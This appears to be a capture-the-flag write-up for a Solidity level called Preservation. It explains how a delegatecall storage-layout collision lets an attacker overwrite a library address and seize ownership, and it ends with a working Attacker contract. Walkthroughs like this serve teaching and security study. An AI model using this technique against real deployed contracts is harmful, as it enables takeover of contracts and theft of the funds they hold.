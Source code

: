 # Preservation

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Goal

The goal of this level is to claim ownership of the Preservation instance.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The first issue that arises is related to the ```LibraryContract``` if this contract was defined as library instead of contract, we would not have been able to exploit this contract, because ```library``` keyword prevents the libraries from storing and accessing state variables.

When using ```delegatecall``` we must have in mind that the storage layout is very important, therefore the order of the state variables in the caller and the callee should be consistent and same.

If we take a closer look we can see that when we call ```setFirstTime``` or ```setSecondTime``` from ```Preservation```, we delegatecall to the ```LibraryContract```.
To be more specific, it means we will call ```setTime``` function inside ```LibraryContract``` and update ```storedTime``` variable to the value passed in ```setTime``` function. When we write to ```storedTime``` variable we are writing to the first slot reserved for ```LibraryContract```, but since we are using ```delegatecall``` this will update the first slot of ```Preservation``` contract and it will update the ```timeZone1Library``` variable of the contract, and we want this variable to hold the value of our ```Attacker``` contract address.

It means we need to figure out how to call ```setFristTime``` with the desired input, and that would be the uint256 value of our ```Attacker``` contract address. To do that we need to cast the address to uint256.

After calling ```setFirstTime``` for the first time, we can call it once again inside our ```Attacker``` contract but since ```timeZone1Library``` is already updated to hold the value of the ```Attacker``` contract address, it will delegatecall to it, calling the ```setTime``` function. This means we need to have a ```setTime``` function in our ```Attacker``` contract. Inside ```setTime``` we will update the value of the ```owner``` variable, and this will update the ```owner``` variable in the ```Preservation``` contract.

One thing to note is that the ```Attacker``` contract should have the same storage layout as the ```Preservation``` contract.

To exploit the contract we need to:

1. create Attacker contract
2. create attack(Preservation preservation) external function inside the Attacker contract, passing in the Preservation contract as function argument, and inside this function we will:
  <ul>
  <li>call setFristTime function from the Preservation contract and pass the uint256 value representation of the Attacker contract address as argument, this will update timeZone1Library variable inside Preservation to the Attacker contract address</li>
  <li>call setFristTime again, this will call cause the Preservation contract to delegatecall to the Attacker contract by calling setTime inside the Attacker contract</li>
  <li>check if the owner variable inside Preservation is the same as msg.sender, otherwise revert</li>
  </ul>
3. add setTime function, inside this function we will update the owner of the Preservation contract by assigning a value to the owner state variable of the Attacker contract

One question that bugs me, is why this solution won't work if we omit the require statement inside the ```attack``` function!?

## Attacker contract code

```
contract Attacker {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;

    function attack(Preservation preservation) external {
        preservation.setFirstTime(uint256(uint160(address(this)))); //set the value of timeZone1Library to address(this)
        preservation.setFirstTime(uint256(uint160(msg.sender))); // call setFristTime from preservation again to execute setTime inside this contract
        require(preservation.owner() == msg.sender, "hack failed");
    }

    function setTime(uint _time) public {
        owner = address(uint160(_time));
    }    
}
```

